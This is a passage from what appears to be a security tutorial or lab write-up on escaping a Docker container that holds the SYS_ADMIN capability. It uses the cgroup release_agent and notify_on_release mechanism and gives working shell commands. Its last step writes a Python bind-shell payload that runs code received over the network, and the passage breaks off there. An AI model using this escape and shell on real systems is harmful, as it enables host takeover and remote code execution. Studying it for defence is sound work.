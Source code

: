 *As a remediation of the above issue, containers are run with the specific capability (whichever is needed) instead of running it as a privileged container (which possess all the capabilities). These capabilities can be listed with `capsh --print` command.*

*In this attack scenario, Container C2 is also running with the such capability SYS_ADMIN. Basically, SYS_ADMIN capability allows the container to perform system administration operations such as  quotactl, mount, umount, swapon, swapoff, sethostname, and setdomainname. Although, not running a container as a privileged one, decreases the security risk however these specific capabilities can also be exploited by issuing some commands and access to the underlying operating system can be gained.*


#### Terminology:

* **cgroup:** a control group is a linux kernel feature, used in docker environments, to isolate the resources for a group of processes, so that it does not interfere with each other's resources.

* **release_agent:** it is script which is supposed to run when the last process in a cgroups terminates.

* **notify_on_release:** it is a flag to notify the linux kernel to invoke release_agent, when the last process in a cgroup terminates. By default this flag is disabled (0).

* **/etc/mtab:** it is a list of currently mounted filesystems.

* **sh -c "echo \$\$":** this command prints the PID of sh (or any other) process.

#### Objective:

We will try to create a cgroup and a child cgroup and then terminates it processes to invoke release_agent by enabling notify_on_release.


#### Steps:

1. Create a directory and mount RDMA cgroup controller and then create a child cgroup 'child'.

	`mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/child`

2. Enable notify_on_release flag.

	`echo 1 > /tmp/cgrp/child/notify_on_release`
	
3. Since /etc/mtab file contains currently mounted file systems (cgroup is one of them), store the full path of the cgroup (from underlying OS), in a variable called path.

	`` path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` ``	

4. Save the path appended with a file named 'exploit' (which will contain actual payload) into release_agent, so that it gets executed when invoked.

	`echo "$path/exploit" > /tmp/cgrp/release_agent`
	
5. Now write actual payload, which is a bind shell, into exploit file. We tried writing reverse shell into the payload however it always ended up with a broken pipe on netcat listener, therefore we are using bind shell.

	`echo "#!/bin/sh" > /exploit`
	
	`echo python3 -c "'import socket; s=socket.socket(); s.bind((\"192.168.2.44\",1337)); s.listen(1);(r,z) = s.accept();exec(r.recv(999))'" >> /exploit`
	